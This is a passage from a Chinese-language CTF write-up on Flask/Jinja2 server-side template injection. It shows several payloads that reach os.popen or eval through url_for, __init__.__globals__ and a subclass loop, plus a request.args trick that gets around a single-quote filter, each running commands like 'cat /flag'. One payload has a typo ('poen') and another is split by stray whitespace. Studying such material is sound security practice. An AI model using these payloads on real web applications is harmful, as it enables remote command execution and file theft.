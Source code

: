 ![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1676016681161-ade63a58-28c8-4c96-969e-c99026af5407.png#averageHue=%23edeceb&clientId=u34e1e24c-4d73-4&from=paste&height=55&id=u140b4125&originHeight=109&originWidth=1127&originalType=binary&ratio=2&rotation=0&showTitle=false&size=12675&status=done&style=none&taskId=uc50bc29d-7268-45cb-a6d3-35a62a5386b&title=&width=563.5)

```python
url_for.__globals__['os']['poen']('cat /flag').read()
```

### 方法2：x.__init__

- x是任意26个英文字母的任意组合都可以，同样可以得到__builtins__然后用eval就可以了

```python
?name={{x.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('cat /flag').read()")}}
```

- `x.__init__.__globals__`是有`'__builtins'`这个属性的

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1676015314568-46af4a07-b230-4bb6-98da-5d35fa76f4b3.png#averageHue=%23e0dfdc&clientId=u34e1e24c-4d73-4&from=paste&height=553&id=ubc8e4ffa&originHeight=1106&originWidth=2608&originalType=binary&ratio=2&rotation=0&showTitle=false&size=380100&status=done&style=none&taskId=u1f9c57b9-a2a6-4b2a-8271-a10b149e27b&title=&width=1304)

- `x.__init__.__globals__['__builtins__']`中存在eval

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1676015409509-c60dd2f9-3541-4149-b29d-b41de336e7b4.png#averageHue=%23e1dfdd&clientId=u34e1e24c-4d73-4&from=paste&height=560&id=ud20ce8d8&originHeight=1120&originWidth=2744&originalType=binary&ratio=2&rotation=0&showTitle=false&size=375372&status=done&style=none&taskId=ued0ec0da-ea4a-477c-84dc-a0d3713f81d&title=&width=1372)

### 方法3：{% %}

- **{% %}**主要用来声明变量，也可以用于条件语句和循环语句。

```python
{% for i in ''.__class__.__mro__[1].__subclasses__() %}{% if i.__name__=='_wrap_close' %}{% print i.__init__.__globals__['popen']('ls').read() %}{% endif %}{% endfor %}
```

## web 363(过滤单引号)

- request绕过 包括get post cookie
  :::info

1. get传参：request.args.name 
2. cookie传参：request.cookies.name
3. post传参：request.values.name
   :::

### 方法1：url_for

#### __builtins

```python
?a=__builtins__&b=eval&c=__import__('os').popen('cat /flag').read()&name={{u
                                                                           
                                                                           
                                                                           
                                                                           
                                                                           
                                                                           rl_for.__globals__[request.args.a][request.args.b](request.args.c)}}
```
